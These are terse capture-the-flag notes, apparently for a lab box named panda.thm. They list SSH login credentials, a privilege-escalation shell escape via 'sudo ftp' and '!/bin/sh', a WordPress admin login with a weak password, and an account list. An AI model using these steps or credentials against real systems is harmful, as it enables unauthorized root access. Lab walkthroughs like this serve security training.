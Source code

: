 1) ssh shifu@panda.thm
	password: batman
2) [PassProtect]
3) linux-Priv	
 	sudo ftp
	!/bin/sh	
5) [PassProtect]
6) Go to panda.thm/wordpress/wp-admin
	po:password1
7) change the password to pass not found in dictionarys ;)
8) Be King; Get Flags


Accounts
shifu:batman
po:password1	
